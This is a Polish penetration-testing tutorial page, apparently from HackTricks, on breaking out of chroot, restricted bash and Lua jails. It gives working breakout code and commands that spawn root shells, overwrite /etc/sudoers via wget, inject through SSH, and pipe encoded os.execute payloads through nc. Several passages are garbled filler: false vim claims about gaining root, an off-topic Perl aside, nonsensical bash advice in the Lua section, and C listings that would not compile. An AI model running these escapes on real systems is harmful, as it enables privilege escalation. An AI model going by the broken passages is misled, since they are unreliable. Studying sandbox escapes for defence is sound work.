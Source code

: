 # Escaping from Jails

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) **i** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repozytoriów github.**

</details>

## **GTFOBins**

**Szukaj w** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **czy możesz wykonać dowolny plik binarny z właściwością "Shell"**

## Ucieczki z Chroot

Z [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mechanizm chroot **nie ma na celu obrony** przed celowym manipulowaniem przez **uprzywilejowanych** (**root**) **użytkowników**. W większości systemów konteksty chroot nie są poprawnie stosowane i programy w chroocie **z wystarczającymi uprawnieniami mogą wykonać drugi chroot, aby się wydostać**.\
Zazwyczaj oznacza to, że aby uciec, musisz być rootem wewnątrz chroota.

{% hint style="success" %}
**Narzędzie** [**chw00t**](https://github.com/earthquake/chw00t) zostało stworzone do wykorzystania poniższych scenariuszy i ucieczki z `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Jeśli jesteś **rootem** wewnątrz chroota, **możesz uciec**, tworząc **inny chroot**. Dzieje się tak, ponieważ 2 chrooty nie mogą istnieć jednocześnie (w systemie Linux), więc jeśli utworzysz folder, a następnie **utworzysz nowy chroot** w tym nowym folderze będąc **na zewnątrz niego**, będziesz teraz **na zewnątrz nowego chroota** i tym samym znajdziesz się w systemie plików.

Dzieje się tak, ponieważ zazwyczaj chroot NIE przenosi twojego bieżącego katalogu roboczego do wskazanego, więc możesz utworzyć chroot, ale być na zewnątrz niego.
{% endhint %}

Zazwyczaj nie znajdziesz binarnego pliku `chroot` wewnątrz więzienia chroot, ale **możesz skompilować, przesłać i wykonać** plik binarny:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>Perl</summary>

Perl jest językiem skryptowym, który może być używany do ucieczki z ograniczonego powłoki bash. Można to zrobić, wykorzystując funkcję system() w Perl, która pozwala na wykonanie poleceń systemowych. Aby to zrobić, należy utworzyć skrypt Perl, który wywołuje polecenie, które chcemy uruchomić w powłoce bash. Następnie, używając funkcji system(), wykonujemy ten skrypt Perl z powłoki bash, co pozwala nam na wykonanie polecenia z uprawnieniami użytkownika, który uruchomił skrypt Perl.

Oto przykładowy skrypt Perl, który wykonuje polecenie "whoami":

```perl
#!/usr/bin/perl
system("whoami");
```

Aby uruchomić ten skrypt Perl z powłoki bash, używamy następującego polecenia:

```bash
perl skrypt.pl
```

To spowoduje wykonanie polecenia "whoami" z uprawnieniami użytkownika, który uruchomił skrypt Perl.

</details>

\`\`\`perl #!/usr/bin/perl mkdir "chroot-dir"; chroot "chroot-dir"; foreach my $i (0..1000) { chdir ".." } chroot "."; system("/bin/bash"); \`\`\`

### Root + Zapisany deskryptor pliku

{% hint style="warning" %}
To jest podobne do poprzedniego przypadku, ale w tym przypadku **atakujący przechowuje deskryptor pliku do bieżącego katalogu**, a następnie **tworzy chroot w nowym folderze**. Na koniec, ponieważ ma **dostęp** do tego **deskryptora pliku poza** chrootem, uzyskuje do niego dostęp i **ucieka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD można przekazywać przez Unix Domain Sockets, więc:

* Utwórz proces potomny (fork)
* Utwórz UDS, aby rodzic i potomek mogli się komunikować
* Uruchom chroot w procesie potomnym w innym folderze
* W procesie rodzica utwórz FD folderu, który znajduje się poza chroot nowego procesu potomnego
* Przekaż do procesu potomnego ten FD za pomocą UDS
* Proces potomny zmienia bieżący katalog na ten FD i ponieważ znajduje się poza chroot, ucieknie z więzienia

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Zamontuj urządzenie root (/) w katalogu wewnątrz chroot
* Uruchom chroot w tym katalogu

To jest możliwe w systemie Linux

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Zamontuj procfs w katalogu wewnątrz chroot (jeśli jeszcze nie jest zamontowany)
* Znajdź pid, który ma inną ścieżkę root/cwd, na przykład: /proc/1/root
* Uruchom chroot w tej ścieżce

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Utwórz Fork (proces potomny) i uruchom chroot w innym folderze głębiej w systemie plików, a następnie zmień bieżący katalog na ten folder
* Z procesu rodzica przenieś folder, w którym znajduje się proces potomny, do folderu poprzedzającego chroot procesu potomnego
* Ten proces potomny znajdzie się poza chroot

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Kiedyś użytkownicy mogli debugować swoje własne procesy z procesu tego samego użytkownika... ale teraz domyślnie nie jest to możliwe
* W każdym razie, jeśli jest to możliwe, można użyć ptrace do debugowania procesu i wykonania w nim shellcode'u ([zobacz ten przykład](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash Jails

### Wyliczanie

Uzyskaj informacje na temat więzienia:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### Modyfikacja PATH

Sprawdź, czy możesz zmodyfikować zmienną środowiskową PATH.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Używanie vim

W przypadku, gdy jesteś ograniczony do korzystania z powłoki bash, ale masz dostęp do edytora vim, istnieje kilka sposobów na uniknięcie tych ograniczeń i uzyskanie większych uprawnień.

**1. Uruchomienie polecenia z uprawnieniami roota**

Możesz uruchomić polecenie z uprawnieniami roota, korzystając z funkcji `:!`. Na przykład, aby uruchomić polecenie `id` jako root, wpisz `:!id`.

**2. Uruchomienie powłoki z uprawnieniami roota**

Możesz uruchomić powłokę z uprawnieniami roota, korzystając z funkcji `:shell`. Wpisanie `:shell` spowoduje otwarcie nowej powłoki, w której będziesz miał większe uprawnienia. Aby wrócić do vim, wpisz `exit`.

**3. Wykonanie poleceń z uprawnieniami roota w trybie wsadowym**

Możesz wykonywać polecenia z uprawnieniami roota w trybie wsadowym, korzystając z funkcji `:w !sudo tee %`. Na przykład, aby zapisać plik jako root, wpisz `:w !sudo tee %`.

**4. Wykonanie poleceń z uprawnieniami roota w trybie wsadowym bez hasła**

Jeśli masz uprawnienia do wykonywania poleceń jako root bez podawania hasła, możesz skorzystać z funkcji `:w !sudo -S tee %`. Wpisanie `:w !sudo -S tee %` spowoduje zapisanie pliku jako root bez konieczności podawania hasła.

**5. Wykonanie dowolnego polecenia**

Możesz wykonywać dowolne polecenia, korzystając z funkcji `:!<command>`. Na przykład, aby uruchomić polecenie `ls -la`, wpisz `:!ls -la`.

**6. Wykonanie dowolnego polecenia i wstawienie wyniku do pliku**

Możesz wykonywać dowolne polecenia i wstawiać wynik do pliku, korzystając z funkcji `:r !<command>`. Na przykład, aby wstawić wynik polecenia `ls -la` do pliku, wpisz `:r !ls -la`.

**7. Wykonanie dowolnego polecenia i wstawienie wyniku do bieżącego pliku**

Możesz wykonywać dowolne polecenia i wstawiać wynik do bieżącego pliku, korzystając z funkcji `:r !<command>`. Na przykład, aby wstawić wynik polecenia `ls -la` do bieżącego pliku, wpisz `:r !ls -la`.

**8. Wykonanie dowolnego polecenia i wstawienie wyniku do nowej linii**

Możesz wykonywać dowolne polecenia i wstawiać wynik do nowej linii, korzystając z funkcji `:put=system('<command>')`. Na przykład, aby wstawić wynik polecenia `ls -la` do nowej linii, wpisz `:put=system('ls -la')`.

**9. Wykonanie dowolnego polecenia i wstawienie wyniku jako tekst**

Możesz wykonywać dowolne polecenia i wstawiać wynik jako tekst, korzystając z funkcji `:let @a = system('<command>')`. Na przykład, aby wstawić wynik polecenia `ls -la` jako tekst, wpisz `:let @a = system('ls -la')`, a następnie wstaw tekst, używając polecenia `"+p`.

**10. Wykonanie dowolnego polecenia i wstawienie wyniku jako nowy bufor**

Możesz wykonywać dowolne polecenia i wstawiać wynik jako nowy bufor, korzystając z funkcji `:new | r !<command>`. Na przykład, aby wstawić wynik polecenia `ls -la` jako nowy bufor, wpisz `:new | r !ls -la`.

```bash
:set shell=/bin/sh
:shell
```

#### Utwórz skrypt

Sprawdź, czy możesz utworzyć plik wykonywalny o zawartości _/bin/bash_.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### Uzyskaj dostęp do basha przez SSH

Jeśli uzyskujesz dostęp za pomocą SSH, możesz skorzystać z tego triku, aby uruchomić powłokę bash:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Zadeklaruj

```bash
declare [-aAfFgilnrtux] [-p] [name[=value] ...]
```

Komenda `declare` służy do deklarowania zmiennych i funkcji w powłoce Bash. Może być używana do tworzenia nowych zmiennych, nadawania wartości istniejącym zmiennym, a także do deklarowania funkcji.

Opcje:

* `-a` - deklaruje zmienną jako tablicę
* `-A` - deklaruje zmienną jako tablicę asocjacyjną
* `-f` - deklaruje zmienną jako funkcję
* `-F` - deklaruje zmienną jako funkcję tylko do odczytu
* `-g` - deklaruje zmienną jako globalną
* `-i` - deklaruje zmienną jako liczbę całkowitą
* `-l` - deklaruje zmienną jako zmienną lokalną
* `-n` - deklaruje zmienną jako tylko do odczytu
* `-r` - deklaruje zmienną jako tylko do odczytu
* `-t` - deklaruje zmienną jako tablicę związanych zadaniami
* `-u` - deklaruje zmienną jako tylko do odczytu
* `-x` - deklaruje zmienną jako eksportowaną

Opcja `-p` wyświetla wartości wszystkich zmiennych zadeklarowanych w bieżącej powłoce.

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Możesz nadpisać na przykład plik sudoers.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Inne sztuczki

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Może być również interesująca strona:**

### Więzienia Pythona

Sztuczki dotyczące ucieczki z więzień Pythona znajdują się na następującej stronie:

### Więzienia Lua

Na tej stronie znajdziesz globalne funkcje, do których masz dostęp wewnątrz Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval z wykonaniem polecenia:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Kilka sztuczek, aby **wywoływać funkcje biblioteki bez użycia kropek**:

1.  Użyj polecenia `source` lub kropki (`.`) do załadowania biblioteki do bieżącego środowiska powłoki. Na przykład, jeśli biblioteka nazywa się `libexample.so`, wykonaj następujące polecenie:

    ```bash
    source libexample.so
    ```

    lub

    ```bash
    . libexample.so
    ```
2.  Wykorzystaj polecenie `declare` do zadeklarowania funkcji z biblioteki jako funkcji bieżącego środowiska powłoki. Na przykład, jeśli funkcja nazywa się `example_function` w bibliotece `libexample.so`, wykonaj następujące polecenie:

    ```bash
    declare -f example_function
    ```
3.  Użyj polecenia `eval` do wykonania funkcji z biblioteki. Na przykład, jeśli funkcja nazywa się `example_function` w bibliotece `libexample.so`, wykonaj następujące polecenie:

    ```bash
    eval example_function
    ```

Pamiętaj, że te techniki mogą być użyteczne w przypadku, gdy nie masz dostępu do pełnej ścieżki do biblioteki lub gdy chcesz uniknąć użycia kropek w celu wywołania funkcji.

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Wylicz funkcje biblioteki:

```bash
for k,v in pairs(string) do print(k,v) end
```

Zauważ, że za każdym razem, gdy wykonasz powyższą jednoliniową komendę w **innym środowisku Lua, kolejność funkcji się zmienia**. Dlatego jeśli musisz wykonać konkretną funkcję, możesz przeprowadzić atak brute force, ładować różne środowiska Lua i wywoływać pierwszą funkcję biblioteki "le":

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Uzyskaj interaktywną powłokę lua**: Jeśli znajdujesz się w ograniczonej powłoce lua, możesz uzyskać nową powłokę lua (i miejmy nadzieję nieograniczoną) wykonując poniższe polecenie:

```bash
debug.debug()
```

### Odwołania

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slajdy: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
